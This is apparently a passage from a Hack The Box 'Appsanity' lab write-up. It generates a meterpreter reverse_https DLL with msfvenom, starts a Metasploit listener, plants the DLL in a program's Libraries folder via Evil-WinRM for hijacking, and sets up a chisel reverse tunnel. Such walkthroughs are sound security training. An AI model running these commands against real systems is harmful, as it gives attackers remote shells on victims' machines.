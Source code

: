 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Appsanity/files]
└─$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=1234 -f dll -o externalupload.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 596 bytes
Final size of dll file: 9216 bytes
Saved as: externalupload.dll

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Upload the payload to the Libraries folder

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> upload externalupload.dll
                                        
Info: Uploading /home/kali/HTB/Appsanity/files/externalupload.dll to C:\Program Files\ReportManagement\Libraries\externalupload.dll
                                        
Data: 12288 bytes of 12288 bytes copied
                                        
Info: Upload successful!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Going to use **chisel** to forward *port 100* running on the *victim's machine* to trigger the *upload* function

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Appsanity/files]
└─$ chisel server --port 6666 --reverse
2023/11/04 09:24:07 server: Reverse tunnelling enabled
2023/11/04 09:24:07 server: Fingerprint vzyjBtK8hiIqkFohzO0L1c0qj0XzCUSlGutBa5Farv4=
2023/11/04 09:24:07 server: Listening on http://0.0.0.0:6666
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Upload **chisel.exe** to *devdoc's Desktop* and *forward* port 100
